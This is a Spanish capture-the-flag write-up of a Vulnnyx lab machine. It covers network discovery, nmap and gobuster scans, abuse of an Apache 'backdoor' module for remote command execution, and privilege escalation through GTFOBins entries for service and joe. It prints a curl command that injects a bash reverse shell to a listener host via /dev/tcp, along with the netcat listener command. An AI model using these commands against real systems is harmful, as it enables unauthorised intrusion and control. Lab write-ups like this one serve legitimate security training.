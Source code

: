 # Writeup

## Conocer la red

Lo primero de todos es encontrar equipos dentro de mi red.

`sudo arp-scan -I eth0 --localnet`

![captura-red](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/e6e95007-1bbb-4cf5-b593-0e2619a681a4)

Como ya sabemos, las máscaras que empiezan por 00:0c son de VMware, por lo tanto la máquina atacante es la **192.168.166.104**.

## Conectividad con la máquina atacante

Comprobamos que tenemos conectividad.

`ping -c1 192.168.166.104`

![captura-ping](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/360454c2-5bf1-402f-8d25-9ea9d39d7724)

Vemos que el **ttl** es **64** por lo que significa que es una máquina Linux.

## Escaneo de puertos

Ahora vamos a hacer un escáneo para ver los puertos que están abiertos

`sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 192.168.166.104 -oN allPorts`

![captura-escaneo](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/1aa0275b-bcac-4e0b-81fa-c201fe06a703)

Podemos ver que utiliza para el puerto 80 Apache. Lo confirmamos buscando en el navegador la IP atacante.

![captura-apache](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/088be370-e75a-4ca2-9b03-bcd254a291e1)

## Fuzzing

Lo que se me ocurre ahora mismo es hacer Fuzzing para encontrar directorios o subdirectorios. Se pueden utilizar **gobuster**, **wfuzz**. En mi caso voy a utilizar gobuster.

`sudo gobuster dir -w /usr/share/wordlist/Seclist/Discovery/Web-Content/directory-list-2.3-medium.txt -x .txt,.php,.py,.html -u "http://192.168.166.104/"`

![captura-gobuster](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/65937e31-497c-4af9-a131-10c4064e698d)

Encontramos un **info.php**. Lo buscamos en el navegador.

![captura-backdoor](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/e5c527bc-2dd2-41fc-b57b-59b411396243)

Vemos que hay un módulo bastante sospechoso llamado **backdoor** o **puerta trasera**.

![captura-mod](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/ad38e771-b424-4636-a61b-b5c87c6a38c0)

Podemos ejecutar comandos de manera remota **(RCE)**.

![captura-whoami](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/b69bb677-5323-4a08-9ee0-4fb6bdbbce9a)

Vemos que si podemos ejecutar. Por lo tanto lo que se me ocurre en estos momentos es hacer una **reverse shell**.

`curl -sX GET -H "Backdoor: bash -c 'bash -i >& /dev/tcp/192.168.166.103/443 0>&1'" "http://192.168.166.104"`

Pero antes nos ponemos en escucha.

`nc -nlvp 443`

Y ahora sí le damos.

![captura-nc](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/76bd4bc4-2335-4419-9430-d0774dd7eb93)

Volvemos la reverse shell útil y cómoda.

`script /dev/null -c bash`

`CTRL + Z`

`stty raw -echo; fg`

`reset xterm`

`export TERM=xterm`

`export BASH=bash`

Podemos ejecutar **service** como **laurent**. Buscamos el binario en **[GTfobins](https://GTfobins.github.io)**.

Y seguimos los pasos

![captura-gtfobins](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/51c1c621-3cb6-45fd-8c6d-e6ee8fa30fcc)

Una vez hechos los pasos, buscamos la flag.

![captura-laurent](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/cd77b848-8226-42b0-9924-d48988f97391)

Ahora vamos a por la de root.

![captura-root](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/f93535f8-35ba-461d-9d83-32fb0da1b00d)

Vemos que podemos ejecutar como root el comando **joe**.

Volvemos a buscar en **[GTfobins](https://GTfobins.github.io)**.

![captura-gtfobins-joe](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/908cf6cc-fea5-4be7-b072-3784300e42a7)

Seguimos los pasos.

![captura-joe-root](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/474b1c06-6ede-4c7e-87fa-a108357f70c2)

Y buscamos la flag.

![captura-flag-root](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/aa5d388d-f987-4ec5-bb2e-2face328c9bb)

Encontramos las dos flag.
